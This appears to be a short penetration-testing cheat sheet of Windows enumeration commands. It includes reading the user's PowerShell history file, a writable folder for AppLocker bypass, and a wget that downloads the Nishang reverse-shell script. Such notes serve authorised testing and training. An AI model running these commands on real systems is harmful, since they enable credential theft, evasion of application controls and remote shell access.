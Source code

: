 # Windows Commands
Essential commands for Windows enumeration and interaction

## Useful Commands

### View file content
```powershell copy
type secret.txt
```
- Displays the content of `secret.txt` in the terminal.

### Check PowerShell history
```powershell copy
type $env:USERPROFILE\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
- Shows PowerShell command history for the current user.

### AppLocker bypass default folder
```powershell copy
cd C:\Windows\System32\spool\drivers\color
```
- Changes to a folder often writable for AppLocker bypass.

## Enumeration

### Check user privileges
```powershell copy
whoami /priv
```
- Lists the current user’s privileges (e.g., SeDebugPrivilege).
- `/priv`: Displays privilege information.

### Start Python HTTP server
```bash copy
python3 -m http.server 80
```
- Runs an HTTP server on port 80 to host files.
- `-m http.server 80`: Runs HTTP server on port 80.



### Download PowerShell reverse shell
```bash copy
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```
- Downloads the Invoke-PowerShellTcp.ps1 script for a reverse shell.